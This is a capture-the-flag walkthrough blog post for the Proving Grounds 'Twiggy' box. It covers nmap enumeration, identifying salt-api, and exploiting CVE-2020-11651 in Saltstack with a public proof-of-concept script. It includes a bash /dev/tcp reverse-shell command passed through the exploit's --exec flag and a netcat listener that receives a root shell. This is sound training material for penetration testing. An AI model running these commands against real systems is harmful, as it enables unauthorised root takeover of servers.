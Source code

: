 ```yaml
---
layout: post
title: Proving Grounds - Twiggy
subtitle: CTF Walkthrough
cover-img: /assets/img/twiggy/twiggy.jpg
thumbnail-img: /assets/img/twiggy/twiggy.jpg
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Easy box found in Proving Grounds practice.

### Enumeration

Checked openports with rustscan before doing an nmap scan to save few precious minutes.

```
└─$ nmap -sV -sC 192.168.209.62 -p 22,53,80,4506,4505,8000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-16 14:21 EST
Nmap scan report for 192.168.209.62
Host is up (0.088s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
```

### Port 80

Did some enumeration on the site, directory brute-forcing, attempted SQLi on on the open fields and default admin credentials to admin page without any luck. Moving on for now.

![alt text](/assets/img/twiggy/1.png)

### Port 8000

Looks like some sort of API.

![alt text](/assets/img/twiggy/2.png)

Reviwing headers reveals this is salt-api.

```
└─$ curl -X HEAD -i 192.168.209.62:8000
Warning: Setting custom HTTP method to HEAD with -X/--request may not work the 
Warning: way you want. Consider using -I/--head instead.
HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Wed, 16 Nov 2022 19:46:27 GMT
Content-Type: application/json
Content-Length: 146
Connection: keep-alive
Access-Control-Expose-Headers: GET, POST
Vary: Accept-Encoding
Allow: GET, HEAD, POST
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
X-Upstream: salt-api/3000-1
```

### Exploitation

Googling *salt-api exploit*, I got a lot of results for Saltstack. So I checked searchsploit for any known exploits.

```
└─$ searchsploit saltstack
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                                       | multiple/remote/48421.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Got a copy of this exploit which was a python script. So I used that to exploit the target. I had to install "salt" package with PIP  to use it though.

```
└─$ searchsploit -m 48421
└─$ mv 48421.txt poc.py
```

Looks like this worked.
```
└─$ python poc.py --master 192.168.209.62    
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.209.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: vMgqnGMHH96nB/hq+jAZQI4qE/tLPYl76AiA0YG/rQvnm0NQqiGm9TKPpdBR9/BkQBg2T1CmQHk=
```

After reviewing this code I saw it takes --exec flag to execute a command, so I inserted a reverse shell.

```
└─$ python poc.py --exec 'bash -i >& /dev/tcp/192.168.49.209/80 0>&1' --master 192.168.209.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.209.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: vMgqnGMHH96nB/hq+jAZQI4qE/tLPYl76AiA0YG/rQvnm0NQqiGm9TKPpdBR9/BkQBg2T1CmQHk=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.49.209/80 0>&1 on 192.168.209.62
[+] Successfully scheduled job: 20221116194428136157
```

Looks like I got root shell.

```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.62] 38154
bash: no job control in this shell
[root@twiggy root]# whoami
whoami
root
```

And thats all. GG